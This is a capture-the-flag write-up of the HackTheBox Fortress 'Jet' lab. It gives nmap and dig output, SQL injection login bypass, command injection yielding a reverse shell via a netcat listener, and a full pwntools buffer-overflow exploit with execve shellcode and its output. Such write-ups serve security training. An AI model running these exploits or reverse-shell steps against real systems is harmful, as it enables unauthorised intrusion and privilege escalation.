 # HackTheBox Fortress Jet Writeup
## Nmap
```bash
Nmap scan report for 10.13.37.10
Host is up, received user-set (0.18s latency).
Scanned at 2024-02-07 12:27:48 +08 for 1513s
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:f6:49:80:81:cf:f0:07:0e:5a:ad:e9:8e:1f:2b:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzfo72P9KbpK9EZIE/AdtfSawGO5rjNM4GOu1Te5M2Z576c7aEVWv+284kw4OQ6JxQtFL56QsVaxRwxY9jGdpluJw5AWQpASy/Rx8q2JT7yGv0yGI8+tAIjLOMNmq5Qt6IjbDiSbL+gp6a+AsA0Mvm9OUYxBDM+LRsKFjwLDJCzFVKMFGc+gNrYJwpRa9RADsXN/19ogVYG8v9GvqFAJygMyTqVM0fbX3dDcAlMWgcHu81wMmQQGznjLe2gTY/sFAhASAfieVnSYIF11amofP8eUd+6jWL1wSlhRcW+j15tsPcotcfdpCrUJMFXq2tumXfNLJUWhv75Rf8pUeVobsx
|   256 54:e2:7e:5a:1c:aa:9a:ab:65:ca:fa:39:28:bc:0a:43 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLz7MT1sqbOHsYtNwWDfYJW8uCAPUL+zMJrW2DvIM7a9jG2RI40LNKjtiYv+M6DXjTWr3DK21kIWWK4TKMEl5Wo=
|   256 93:bc:37:b7:e0:08:ce:2d:03:99:01:0a:a9:df:da:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEEtJp2PzxXAhVXs6nNbgJXgRbLCiB/hcGJY5IgBKfS4
53/tcp    open  domain   syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp    open  http     syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx on Debian!
5555/tcp  open  freeciv? syn-ack ttl 63
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, adbConnect: 
|     enter your name:
|     [31mMember manager!
|     edit
|     change name
|     gift
|     exit
7777/tcp  open  cbt?     syn-ack ttl 63
9201/tcp  open  http     syn-ack ttl 63 BaseHTTPServer 0.3 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET
|_http-title: Site doesn't have a title (application/json).
60006/tcp open  unknown  syn-ack ttl 63
```

## Flag 1 Connect
http://10.13.37.10<br>
![Flag 1](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/Fortress%20Jet%20F1.png)

## Flag 2 Digging In
```bash
dig @10.13.37.10 -x 10.13.37.10 

; <<>> DiG 9.19.19-1-Debian <<>> @10.13.37.10 -x 10.13.37.10
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 52896
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.	IN	PTR

;; AUTHORITY SECTION:
37.13.10.in-addr.arpa.	604800	IN	SOA	www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800

;; Query time: 347 msec
;; SERVER: 10.13.37.10#53(10.13.37.10) (UDP)
;; WHEN: Wed Feb 07 12:31:06 +08 2024
;; MSG SIZE  rcvd: 109
```
After adding www.securewebinc.jet to /etc/hosts visit www.secureweb.inc.jet
![Flag 2](/image/Fortress%20Jet%20F2.png)

## Flag 3 Going Deeper
In Burp we can see the web application is constantly calling to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/stats.php
Visiting http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/ lead us to a login page.


## Flag 4 Bypass Authentication
Error message when attempting to sign in with admin:admin shows that admin user exists. Username parameter is vulnerable to SQL injection. Get the user's password hash with SQLmap and crach it with hashcat. 
![Flag 4](/image/Fortress%20Jet%20F4.png)

## Flag 5 Command
Trigger a post request to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php through the admin dashboard "Quick email" form. Start a netcat listener and receive a reverse shell through command injection.
![Flag 5](/image/Fortress%20Jet%20F5.png)
```bash
rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.13.37.10] 54576
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ ls -la
ls -la
total 120
drwxr-x---  8 root www-data  4096 Jan  3  2018 .
drwxr-x---  3 root www-data  4096 Dec 20  2017 ..
-rw-r--r--  1 root root        33 Dec 20  2017 a_flag_is_here.txt
-rwxr-x---  1 root www-data   157 Jan  3  2018 auth.php
-rwxr-x---  1 root www-data    39 Dec 20  2017 badwords.txt
drwxr-x--- 32 root www-data  4096 Dec 20  2017 bower_components
drwxr-x---  6 root www-data  4096 Oct  9  2017 build
-rwxr-x---  1 root www-data    82 Dec 20  2017 conf.php
-rwxr-x---  1 root www-data 44067 Dec 27  2017 dashboard.php
-rwxr-x---  1 root www-data   600 Dec 20  2017 db.php
drwxr-x---  5 root www-data  4096 Oct  9  2017 dist
-rwxr-x---  1 root www-data   820 Dec 27  2017 dologin.php
-rwxr-x---  1 root www-data  2881 Dec 27  2017 email.php
-rwxr-x---  1 root www-data    43 Dec 20  2017 index.php
drwxr-x---  2 root www-data  4096 Dec 20  2017 js
-rwxr-x---  1 root www-data  3606 Dec 20  2017 login.php
-rwxr-x---  1 root www-data    98 Dec 20  2017 logout.php
drwxr-x--- 10 root www-data  4096 Dec 20  2017 plugins
-rwxr-x---  1 root www-data    21 Nov 14  2017 stats.php
drwxrwxrwx  2 root www-data  4096 Dec 20  2017 uploads
```

## Flag 6 Overflown
```python
import os

os.environ['PWNLIB_NOTERM'] = '1'

from pwn import *

p = remote('10.13.37.10', 60006)
# receive until we see this text
p.recvuntil("Oops, I'm leaking! ")
# store leaked libc base address
leak=int(p.recvuntil("\n"),16)
log.info('Libc address: {}'.format(hex(leak)))
p.recvuntil("> ")
leak2= p64(int(leak))
# execve x64 shellcode 30 bytes - https://www.exploit-db.com/exploits/37362/
payload = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload += "A"*(72-len(payload))
payload += str(leak2)
p.sendline (payload)

p.interactive()
```
```bash
www-data@jet:/tmp$ python bof.py
python bof.py
[x] Opening connection to 10.13.37.10 on port 60006
[x] Opening connection to 10.13.37.10 on port 60006: Trying 10.13.37.10
[+] Opening connection to 10.13.37.10 on port 60006: Done
[*] Libc address: 0x7fff808f2a90
[*] Switching to interactive mode
id
id
uid=33(www-data) gid=33(www-data) euid=1005(alex) groups=33(www-data)

ls -la /home/alex
total 916
drwxrwx--- 6 alex alex       4096 Feb  5 06:52 .
drwxr-xr-x 8 root root       4096 Apr  1  2018 ..
-rw-r--r-- 1 root root          0 Dec 28  2017 .bash_history
-rwxrwx--- 1 alex alex        220 Dec 27  2017 .bash_logout
-rwxrwx--- 1 alex alex       3771 Dec 27  2017 .bashrc
drwx------ 2 alex alex       4096 Feb  5 06:15 .cache
drwxr-x--- 3 alex alex       4096 Feb  5 06:46 .config
drwx------ 2 alex alex       4096 Feb  5 06:47 .gnupg
-rwxrwx--- 1 alex alex        655 Dec 27  2017 .profile
drwx------ 2 alex www-data   4096 Feb  5 06:13 .ssh
-rw-r--r-- 1 root root        659 Jan  3  2018 crypter.py
-rw-r--r-- 1 root root       1481 Dec 28  2017 encrypted.txt
-rw-r--r-- 1 root root       7285 Dec 27  2017 exploitme.zip
-rw-r--r-- 1 root root         27 Dec 28  2017 flag.txt
-rw-r--r-- 1 alex www-data      0 Feb  5 06:13 kik
```


